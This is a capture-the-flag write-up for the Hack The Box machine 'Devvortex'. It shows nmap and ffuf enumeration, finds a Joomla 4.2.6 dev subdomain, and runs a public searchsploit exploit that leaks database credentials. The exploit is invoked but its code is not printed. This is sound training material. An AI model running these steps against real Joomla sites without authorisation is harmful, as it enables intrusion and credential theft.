

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Devvortex

## Summary


## Recon

### Port Scan

Let's start by checking what services are listening on Devvortex.


You can find `nmap-scan.sh` [here](../../../tools/tools/port-scanners/nmap.md#nmap-scan).


```bash
# Executing nmap-scan
$ nmap-scan.sh 10.10.11.242
Creating directory...
Performing initial scan...
Extracting ports...
Performing an aggresive scan on open ports...
All done! See results: less scans/aggressive_scan.nmap

# Checking the results
$ cat scans/aggressive_scan.nmap

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
```

Not many services open, just SSH and an HTTP nginx web server which redirects us to `devvortex.htb`. Let's add this domain to our `/etc/hosts` file and move onto enumerating the web server.

```bash
$ grep dev /etc/hosts
10.10.11.242 devvortex.htb
```

### Web Server Enumeration

We will start by enumerating the technologies used, as it can provide us with useful information for our subsequent fuzzing scans, such as the programming language used.


```bash
$ whatweb devvortex.htb
http://devvortex.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[info@DevVortex.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.242], JQuery[3.4.1], Script[text/javascript], Title[DevVortex], X-UA-Compatible[IE=edge], nginx[1.18.0]
```


Next, we will start our scans and explore the domain via our browser until they complete (Figure 1).

<figure><figcaption><p>Figure 1: Browsing through <code>devvortex.htb</code> web site.</p></figcaption></figure>

The site seems completely static so there is not much to explore there. Let's check what came back from our scans: no subdomains, default directories, and, the only interesting result, the `dev` virtual host (Figure 2).


```bash
# Scanning for subdirectories
ffuf -u http://devvortex.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -c -ac -ic
# Scanning for subdomains
ffuf -u http://FUZZ.devvortex.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -ac -c -ic
# Scanning for virtual hosts
ffuf -u http://devvortex.htb -H "HOST: FUZZ.devvortex.htb" -ac -c -ic -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
```


<figure><figcaption><p>Figure 2: Fuzzing for directories and virtual hosts with <code>ffuf</code>.</p></figcaption></figure>

Let's add `dev.devvortex.htb` to our local DNS file, and run a directory scan on it while we manually pay it a visit.


```bash
# Adding the virtual host to our local DNS file
$ grep dev /etc/hosts
10.10.11.242 devvortex.htb dev.devvortex.htb
# Directory-busting the virtual host
ffuf -u http://dev.devvortex.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -c -ac -ic
```


## Foothold

### Subdomain Enumeration

This seems another static website (Figure 3). Luckily, this time our directory scan returns many more results than before (Figure 4).&#x20;

<figure><figcaption><p>Figure 3: Exploring the <code>dev.devvortex.htb</code> website.</p></figcaption></figure>

<figure><figcaption><p>Figure 4: Dirbusting the subdomain.</p></figcaption></figure>

The `/administrator` directory is a Joomla login page (Figure 4). By putting on use our [Joomla's enumeration and attacks notes](../../../tools/tools/web/cms/joomla.md), we can find the CMS[^1]'s version.

```bash
# Enumerating Joomla's version
$ curl -s http://dev.devvortex.htb/README.txt | head -n 5
Joomla! CMS™

1- Overview
        * This is a Joomla! 4.x installation/upgrade package.
        * Joomla! Official site: https://www.joomla.org
# Enumerating Joomla's exact version   
$ curl -s http://dev.devvortex.htb/administrator/manifests/files/joomla.xml | xmllint --format -
<?xml version="1.0" encoding="UTF-8"?>
<extension type="file" method="upgrade">
  <name>files_joomla</name>
  <author>Joomla! Project</author>
  <authorEmail>admin@joomla.org</authorEmail>
  <authorUrl>www.joomla.org</authorUrl>
  <copyright>(C) 2019 Open Source Matters, Inc.</copyright>
  <license>GNU General Public License version 2 or later; see LICENSE.txt</license>
  <version>4.2.6</version>
```

Now that we know the exact version, we can use [`searchsploit`](../../../tools/tools/searchsploit.md) to see if there is any known vulnerability, and if there is, to directly download the PoC[^2] and use it (Figure 5).


For the below exploit to work, `ruby` needs to be [installed](https://www.ruby-lang.org/en/documentation/installation/#apt) in the system along with the required gems: `sudo gem install httpx json docopt paint`.


```bash
# Searching for known vulnerabilities
searchsploit joomla 4.2. --id
# Downloading the PoC
searchsploit 51334 -m
./51334.py http://dev.devvortex.htb
```

<figure><figcaption><p>Figure 5: Searching for public vulnerabilities and obtaining database credentials.</p></figcaption></figure>

[^1]: Content Management System

[^2]: Proof of Concept
